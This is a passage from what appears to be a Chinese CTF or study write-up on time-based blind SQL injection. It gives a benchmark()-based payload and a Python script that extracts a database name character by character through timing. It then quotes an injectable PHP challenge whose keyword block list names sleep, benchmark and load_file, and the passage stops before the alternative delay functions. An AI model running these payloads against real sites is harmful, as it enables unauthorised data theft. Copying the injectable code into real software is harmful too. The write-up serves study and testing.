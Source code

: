 ```text
1%20 ' and if(ord(substr(database(),1,1))=116,benchmark(25000000,md5('test')),1) --+
```

我们只需将代码中的`sleep()` 相应的`benchmark` 即可。

```text
import requests
import time

for i in range(1,5):
    for num in range(27,122):
        url = r'http://127.0.0.1/time.php?id=1%20%20%27%20and%20if(ord(substr(database(),'+str(i)+',1))='+str(num)+',benchmark(25000000,md5("test")),1)%20--+'
        start = time.clock()
        r = requests.get(url)
        elapsed = (time.clock() - start)
        if elapsed >= 3:
            print('数据库名称第'+ str(i) + '位为：' + chr(num))
            break
```

![](../../../.gitbook/assets/tu-pian%20%2827%29.png)

之前做过一个中科院的题目，其中将`sleep` 和`benchmark` 都禁用了，当时查资料的时候发现了一些其他的方式，这里借用pwnhub的代码：

```text
<?php
require 'conn.php';
$id = $_GET['id'];
if(preg_match("/(sleep|benchmark|outfile|dumpfile|load_file|join)/i", $_GET['id']))
{
    die("you bad bad!");
}
$sql = "select * from article where id='".intval($id)."'";
$res = mysql_query($sql);
if(!$res){
    die("404 not found!");
}
$row = mysql_fetch_array($res, MYSQL_ASSOC);
mysql_query("update view set view_times=view_times+1 where id = '".$id." '");
?>
```

我们可以看到在`$sql`我们传入的参数会被强转`int`，这里显然就不存在注入了，然而下面`update` 处直接拼接到了SQL语句中，报错被禁止，因此不能进行报错注入，`load_file` 被禁用，而且不知道是不是`root` 权限，因此`dns_log` 方法也放弃，又因为页面没有回显，因此普通注入也无法进行，唯一剩下延时注入，其中`sleep` 与`benchmark` 均被禁用，所以我们需要找到其他的延时函数。

通过查询资料，我们发现有如下几种方法。
